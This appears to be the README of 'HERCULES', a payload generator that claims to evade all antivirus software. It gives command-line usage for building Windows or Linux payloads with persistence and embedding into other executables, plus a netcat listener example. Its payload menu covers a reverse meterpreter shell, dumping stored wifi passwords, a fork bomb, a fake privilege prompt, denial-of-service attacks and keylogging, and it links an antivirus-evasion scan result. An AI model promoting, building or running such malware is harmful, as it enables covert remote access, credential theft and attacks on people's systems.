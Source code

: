 # HERCULES
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (LocalIp) (LocalPort) (Options)


Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   

~PERSSISTENCE                     Installs a persistence module

~DISTRACT                         Executes a fork bomb bat file for distraction   

~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

~DOS -A "www.targetsite.com"      Starts a denial of service atack

~WIFI-LIST 						            Dumps all wifi history data with passwords

~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE

- Dynamic linking makes payload size smaller !

# AV AWARENESS

http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

# NOTE

- Using persistence and keylogger may attract some Anti Virus software... 

